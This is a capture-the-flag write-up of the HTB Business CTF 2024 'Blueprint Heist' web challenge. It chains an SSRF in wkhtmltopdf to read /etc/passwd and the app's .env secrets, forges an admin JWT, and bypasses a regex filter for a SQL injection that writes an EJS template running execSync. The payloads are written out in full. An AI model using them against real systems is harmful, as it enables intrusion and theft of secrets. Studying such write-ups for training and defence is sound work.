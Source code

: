 ```yaml
---
title: "Challenge, Train, Flag: Blueprint Heist"
summary: “Challenge, Train, Flag explores CTF challenges to enhance cybersecurity skills, focusing on exploiting vulnerabilities like SSRF, JWT forging, and SQL injection in real-world scenarios.”
date: 2024-12-08
tag:
    - Cybersecurity
    - Pentesting
    - CTF
    - Code Review
    - SSRF
    - JWT
    - SQL Injection
    - WebSecurity
    - HackTheBox
    - NodeJS
---
```


# Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to **CTFs as a key learning tool** under the _learning by doing_ methodology. We believe that **facing practical challenges is the best way to develop technical skills** and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

<!-- more -->

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags", which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

<figure markdown="span">
    ![Reading /etc/passwd with the PDF generator](../../assets/posts/2024/12/08/etc_passwd.png)
  <figcaption>Reading /etc/passwd with the PDF generator</figcaption>
</figure>

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

<figure markdown="span">
    ![Reading env file with the PDF generator](../../assets/posts/2024/12/08/env_file.png)
  <figcaption>Reading env file with the PDF generator</figcaption>
</figure>

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like <a href="https://jwt.io/" target="_blank">JWT.io</a> to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

<figure markdown="span">
    ![Edit JWT token on JWT.io](../../assets/posts/2024/12/08/jwt_io.png)
  <figcaption>Edit JWT token on JWT.io</figcaption>
</figure>

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

<figure markdown="span">
    ![PDF with the content of the admin panel](../../assets/posts/2024/12/08/admin_panel_pdf.png)
  <figcaption>PDF with the content of the admin panel</figcaption>
</figure>

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

<figure markdown="span">
    ![The regex match our payload](../../assets/posts/2024/12/08/regex_match.png)
  <figcaption>The regex match our payload</figcaption>
</figure>

- With a line break.

<figure markdown="span">
    ![The regex doesn´t match our payload](../../assets/posts/2024/12/08/regex_not_match.png)
  <figcaption>The regex doesn´t match our payload</figcaption>
</figure>

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

<figure markdown="span">
    ![Reading the flag](../../assets/posts/2024/12/08/flag.png)
  <figcaption>Reading the flag</figcaption>
</figure>

---
